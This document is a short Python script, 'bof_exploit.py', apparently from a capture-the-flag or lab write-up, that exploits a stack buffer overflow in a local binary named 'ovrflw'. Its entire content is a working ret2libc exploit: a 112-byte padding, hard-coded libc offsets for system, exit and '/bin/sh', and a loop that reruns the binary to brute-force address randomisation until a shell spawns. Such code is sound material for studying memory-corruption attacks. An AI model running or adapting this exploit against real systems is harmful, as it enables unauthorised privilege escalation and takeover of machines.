 > **bof_exploit.py**:

```python
#!/usr/bin/python3

import signal,sys
from struct import pack
from subprocess import call

def def_handler():
	print("\n\n[!] Exiting ...\n")
	sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables

# ldd /usr/local/bin/ovrflw                                
# libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7549000)
libc_address = 0xb7549000
offset = 112

def exploit():
	before_eip = b"A" * offset

	# readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E ' system| exit'
	# 00033260 exit@@GLIBC_2.0  
	# 00040310 system@@GLIBC_2.0
	# strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"    
	# 162bac /bin/sh

	offset_system = 0x00040310
	offset_exit = 0x00033260
	offset_bin_sh = 0x00162bac

	system_address = pack("<I", offset_system + libc_address)
	exit_address = pack("<I", offset_exit + libc_address)
	bin_sh_address = pack("<I", offset_bin_sh + libc_address)

	eip = system_address + exit_address + bin_sh_address
	payload = before_eip + eip

	return payload

if __name__ == '__main__':

	payload = exploit()
	while True:
		response = call(["/usr/local/bin/ovrflw", payload])
		if response ==0:
			print("\n\n[!] Successful exploitation\n")
			sys.exit(0)
```
